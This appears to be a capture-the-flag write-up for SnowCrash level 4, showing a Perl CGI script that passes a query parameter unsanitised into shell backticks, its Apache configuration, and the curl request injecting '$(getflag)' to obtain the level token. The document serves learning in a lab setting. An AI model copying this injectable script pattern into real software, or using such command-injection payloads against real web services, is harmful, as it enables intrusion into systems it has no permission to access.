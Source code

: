 # FLAG04

In the level04 home directory we found a perl script and the same script in the `/var/www/level04/`.
```
level04@SnowCrash:~$ ls
level04.pl
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
we found also that apache is serving it in port `4747`
```
level04@SnowCrash:~$ cat /etc/apache2/sites-enabled/level05.conf
<VirtualHost *:4747>
	DocumentRoot	/var/www/level04/
	SuexecUserGroup flag04 level04
	<Directory /var/www/level04>
		Options +ExecCGI
		DirectoryIndex level04.pl
		AllowOverride None
		Order allow,deny
		Allow from all
		AddHandler cgi-script .pl
	</Directory>
</VirtualHost>

```
so we visited the the `<VM ip>:4747` and we got a blank page
after reading the script it looks like it's just echoing anything the user give it in the x param and sending it back to the client.

And since the file owner is flag04 if we could make it run the getflag command we will get our flag.

```
level04@SnowCrash:~$ ls -l /var/www/level04/
total 4
-r-xr-x---+ 1 flag04 level04 152 Jun 19 15:21 level04.pl
```
so we used the quey param with a value `$(getflag)`

```
$ curl -X GET "<ip>:4747/?x=\$(getflag)"

Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```